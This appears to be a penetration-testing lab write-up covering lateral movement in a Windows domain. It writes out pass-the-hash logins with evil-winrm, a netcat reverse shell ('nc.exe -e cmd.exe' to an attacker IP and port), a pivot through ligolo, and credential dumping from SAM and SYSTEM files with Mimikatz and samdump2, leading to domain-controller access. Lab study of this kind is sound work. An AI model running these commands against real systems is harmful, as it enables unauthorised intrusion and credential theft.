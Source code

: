 - After obtaining Celia.Almeda's hash which was found on Mimikatz, but verified through crackmapexec smb --users or PowerView, I used evil-winrm
- evil-winrm -i MS02_IP -u celia.almeda -H mimikatz_NTLMhash
- upload and download syntax are pretty straight forward. The directories are attached to where you started the evil-winrm session
- Upload nc.exe -> uploaded nc.exe to upgrade my shell to a more secure shell
- Syntax -> .\nc.exe -e cmd.exe 10.10.104.141 4444
- This is important because MS01 had two interfaces, the 192.x.x.x we saw, but it also had a 10.x.x.x which we then connected with the port proxy/ligolo listener
- That command caught on the listener agent, then proxy forwarded to my AP where I had nc -lnvp 4444 waiting to catch the shell
- I uploaded mimikatz once again but instead ran an lsadump
- When going through the files, there was a windows and windows.old, that had System32 SAM (password storage) and SYSTEM (sysconfigs)
- ![[Pasted image 20230821150640.png]]
- Now that I had a filepath, I ran that against Mimikatz as follows:
- ![[Pasted image 20230821150857.png]]
- I also ran samdump2 SAM SYSTEM to see the hashes, and showed which accounts were disabled leading me to tom_admin
- I took tom_admin's NTLM hash for the DC01
- evil-winrm -i DC_IP -u tom_admin -H mimikatz_hash and....success
- ![[Pasted image 20230821151135.png]]
- ![[Pasted image 20230821151247.png]]
- ![[Pasted image 20230821151647.png]]